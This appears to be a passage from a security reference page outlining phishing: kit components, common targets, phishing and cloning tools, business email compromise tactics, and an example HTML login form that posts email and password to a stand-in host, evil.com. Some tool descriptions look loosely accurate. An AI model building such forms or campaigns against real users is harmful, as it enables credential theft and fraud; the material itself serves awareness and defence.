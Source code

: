 ### Phishing Kit Components

#### Frontend Components
- **Login Forms**: Replica of legitimate login pages
- **SSL Certificates**: Let's Encrypt or stolen certificates
- **Brand Assets**: Logos, colors, fonts matching legitimate sites
- **Responsive Design**: Mobile-friendly phishing pages

#### Backend Components
- **Data Collection**: Scripts to capture form submissions
- **Email Notification**: Alerts when credentials are captured
- **Redirection Logic**: Redirect to legitimate site after capture
- **Anti-Detection**: Geofencing, bot detection

### Common Phishing Targets
- **Banking Websites**: Online banking portals
- **Social Media**: Facebook, LinkedIn, Twitter
- **Email Providers**: Gmail, Outlook, Yahoo
- **E-commerce**: Amazon, eBay, PayPal
- **Cloud Services**: Google Drive, Dropbox, Office 365

### Attack Tools and Frameworks

#### Phishing Frameworks
- **Social Engineer Toolkit (SET)**: Automated phishing attacks
- **King Phisher**: Phishing campaign toolkit
- **Gophish**: Open-source phishing framework
- **PhishX**: Phishing simulation platform

#### Email Tools
- **MailSniper**: Email reconnaissance tool
- **SpamTitan**: Email security testing
- **PhishMe**: Phishing simulation service
- **Lucy**: Security awareness training platform

#### Website Cloning
- **HTTrack**: Website mirroring tool
- **wget**: Command-line website downloader
- **Burp Suite**: Web application cloning capabilities
- **Custom Scripts**: Python/PHP website cloners

### Advanced Phishing Techniques

#### Business Email Compromise (BEC)
- Target finance departments
- Impersonate executives or vendors
- Request wire transfers or sensitive data
- Use compromised email accounts

#### Credential Harvesting
```html
<!-- Example phishing form -->
<form action="https://evil.com/harvest.php" method="post">
    <input type="email" name="email" placeholder="Email" required>
    <input type="password" name="password" placeholder="Password" required>
    <input type="hidden" name="target" value="legitimate-bank.com">
    <button type="submit">Sign In</button>
</form>
```
